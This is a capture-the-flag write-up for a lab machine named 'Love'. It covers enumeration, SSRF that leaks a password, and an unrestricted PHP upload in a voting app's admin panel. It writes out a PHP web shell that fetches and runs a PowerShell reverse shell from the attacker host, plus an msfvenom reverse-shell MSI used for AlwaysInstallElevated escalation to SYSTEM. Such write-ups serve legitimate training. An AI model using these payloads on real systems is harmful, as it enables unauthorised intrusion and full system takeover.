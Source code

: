 ```yaml
---
layout: default
---
```



# Love

# Enumeration

Port scan reported the following opened ports.

```bash
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
443/tcp   open  https        syn-ack
445/tcp   open  microsoft-ds syn-ack
3306/tcp  open  mysql        syn-ack
5000/tcp  open  upnp         syn-ack
5040/tcp  open  unknown      syn-ack
5985/tcp  open  wsman        syn-ack
5986/tcp  open  wsmans       syn-ack
7680/tcp  open  pando-pub    syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49665/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49667/tcp open  unknown      syn-ack
49668/tcp open  unknown      syn-ack
49669/tcp open  unknown      syn-ack
49670/tcp open  unknown      syn-ack
```

## Port 135

- RPC
- Need credentials

```bash
┌──(kali㉿kali)-[~]
└─$ rpcclient -U '%' 10.10.10.239
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

## Port 139/445

- SMB
- Need credentials

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L \\\\10.10.10.239\\ -N  
session setup failed: NT_STATUS_ACCESS_DENIED
```

## Port 3306

- MySQL - MariaDB
- Cannot connect remotely

```bash
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.10.10.239                               
ERROR 1130 (HY000): Host '10.10.14.12' is not allowed to connect to this MariaDB server
```

## Port 80/443

- HTTP and HTTPs
- Certificate

```bash
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/localityName=norway/emailAddress=roy@love.htb/organizationalUnitName=love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/localityName=norway/emailAddress=roy@love.htb/organizationalUnitName=love.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
| SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2
```

We have two interesting things.

- File scanning using URL

![Untitled](Love%207f5a8d34fc0145668dfbfac1e5213542/Untitled.png)

- Logging into vote system

![Untitled](Love%207f5a8d34fc0145668dfbfac1e5213542/Untitled%201.png)

### File scanner

- When we request a file we can see the ouptut → php code injection, SSRF, ¿LFI?
- No PHP execution

![Untitled](Love%207f5a8d34fc0145668dfbfac1e5213542/Untitled%202.png)

- Vulnerable to SSRF  → making a request to http://localhost:5000 leaked a password.

![Untitled](Love%207f5a8d34fc0145668dfbfac1e5213542/Untitled%203.png)

### Voting system

The creadentials are not valid for the login in the **index.php**, but bruteforcing reveals a directory  called **admin** where we can log in and have access to the admin panel.

From here we have to enumerate each section and see if we can trigger any vulnerability.

If we go to voters sections we will be able to create a user and add a photo to him. Maybe we are able to upload a PHP file.

There is also a **print** functionality but it seems broken.

```bash
Warning: "continue" targeting switch is equivalent to "break". Did you mean to use "continue 2"? in C:\xampp\htdocs\omrs\tcpdf\tcpdf.php on line 17778
TCPDF ERROR: Some data has already been output, can't send PDF file
```

- `C:\xampp\htdocs\omrs\tcpdf\tcpdf.php`

If we upload a PHP file as a profile image for a new user it will upload an execute without any  problems.

```bash
<img src='../images/test.php' width='30px' height='30px'>
<a href='#edit_photo' data-toggle='modal' class='pull-right photo' data-id='3'><span class='fa fa-edit'></span></a>
```

![Untitled](Love%207f5a8d34fc0145668dfbfac1e5213542/Untitled%204.png)

In this case the PHP simply called **phpinfo()** function.

# Foothold

To gain access to the machine we will upload the following PHP script.

```bash
<?php system('powershell -ep bypass -c "iex(new-object net.webclient).downloadstring(\'http://10.10.14.12/Invoke-PowerShellTcp.ps1\')"'); ?>
```

- Upload the file
- Access to it
- We have a reverse shell

```bash
┌──(kali㉿kali)-[~]
└─$ rlwrap nc -nvlp 443                                          
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.239] 55420
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\omrs\images>whoami
love\phoebe
```

# Privilege escalation

Afte some basic enumeration I will eun PowerUp, and we have something.

```bash
Check         : AlwaysInstallElevated Registry Key
AbuseFunction : Write-UserAddMSI
```

Seems like we can escalate using AlwaysInstallElevated manner. To double check this we can run the following, and if we have 0x1 in the output means that we can leverage the vulnerability.

```bash
PS C:\Users\Phoebe> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

We generate a maliciuos MSI file.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi
```

- Upload to victim
- Set a listener
- Execute

```bash
PS C:\Users\Phoebe> copy \\10.10.14.12\share\evil.msi .
PS C:\Users\Phoebe> .\evil.msi
PS C:\Users\Phoebe>
```

- Should have  shell

```bash
┌──(kali㉿kali)-[~/tools]
└─$ nc -lvnp 443                                                 
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.239] 55426
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```